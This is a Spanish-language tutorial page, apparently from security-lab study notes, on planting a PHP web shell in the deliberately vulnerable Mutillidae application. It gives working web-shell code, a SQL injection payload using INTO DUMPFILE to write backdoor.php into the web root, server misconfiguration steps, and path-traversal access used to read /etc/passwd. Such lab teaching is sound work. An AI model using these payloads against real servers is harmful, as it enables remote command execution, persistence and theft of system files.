 # WebShells

Las `WebShells` no es una vulnerabilidad como tal, si no que es un `script` un fragmento de codigo que vamos a injectar en la maquina que esta alojando la aplicacion web de manera que nosotros podamos ganar persistencia en esa maquina, como la ejeccion remota de comandos, etc... Una `WebShell` seria el `payload` (Transladandolo a esos coneptos en los que hablabamos en la explotacion de vulnerabilidades en `hosts`) aprovechando una vulnerabilidad de manera que nosotros podamos injectar ese codigo dejar ese ficherito en el web server y despues poder ejecutar comandos remotamente, ganar persistencia, etc...

La tipica `WebShell` que se suele crear en un fichero seria la siguiente:

```php
<?php echo passthru($_GET['cmd']); ?>
```

Es un codigo en `PHP` que lo unico que hace es recivir un comando/parametro en este caso mediante la URL con la condicion `GET` y lo que hace es que ejecuta ese comando en el sistema operativo de la maquina en la que este alojando este fichero, si conseguimos subir este fichero al web server y accedemos a el mediante la URL y metemos como parametro el llamado `cmd` el cual le pusimos en el fichero seguido de un comando del sistema como `ls, cat, etc...` se nos va a ejecutar en el sistema y nos mostrara la informacion por pantalla.

Muchas veces las organizaciones en vez de tener limitada la lectura de ficheros mediante `mysql` la deslimitan para que pueda tener mas funcionalidades y a causa de esto, nosotros como atacantes podemos aprovechar eso, por lo que vamos a simularlo, haciendo los siguientes cambios en la maquina `ubuntu`.

Abrimos el siguiente archivo mediante la terminal:

```shell
nano /etc/mysql/mysql.conf.d/mysqld.cnf

#Dentro del nano
[mysqld]

secure-file-priv = ""
```

Y añadimos esa linea debajo de `[mysqld]`.

Ahora nos vamos a la siguiente direccion:

```shell
cd /var/www/html
chown -R mysql:mysql mutillidae
chown -R mysql:mysql mutillidae/*
```

Y le damos permisos a `mysql` para la pagina de `mutillidae`.

Despues una vez echo esto, lo que hemos permitido es que la base de datos pueda leer cualquier fichero del servidor, cosa muy habitual en empresas o demas organizaciones, incluso en muchas de ellas vienen por defecto.

Por lo que vamos a escribir con esta vulnerabilidad un `WebShell` y despues con la tecnica del `Path Traversal` vamos acceder a el.

Vamos a irnos en la pagina de `Mutillidae` a cualquier campo que tenga la vulnerabilidad de `SQL Injection` y vamos a escribir la siguiente sentencia:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<?php echo passthru($_GET["cmd"]); ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Lo que estamos haciendo aqui es que esa `WebShell` de `PHP` la estamos volcando con `INTO DUMPFILE` a un fichero con la siguiente ruta mostrada y lo llamaremos al archivo `backdoor.php`.

Pero para hacerlo mejor, pondremos el siguiente `WebShell` mas que uno simple:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Hace el mismo funcionamiento que el anterior, pero es mejorado, que esto lo tendremos en la ayuda de la propia pagina de `Mutillidae`.

Y con esto ya tendriamos el fichero subido en la pagina.

Y ahora utilizando la tecnica de `Path Traversal` haremos lo siguiente para meternos en dicho fichero:

```
URL = http://<IP>/mutillidae/src/index.php?page=backdoor.php
```

<figure><img src="../../../.gitbook/assets/image (78) (1).png" alt=""><figcaption></figcaption></figure>

Nos aparecera como un recuadro en el que podremos insertar un comando que se ejecutara en el sistema.

Si por ejemplo queremos ver el archivo de `passwd` pondremos `cat /etc/passwd`:

<figure><img src="../../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

Y podremos verlo en la propia pagina.
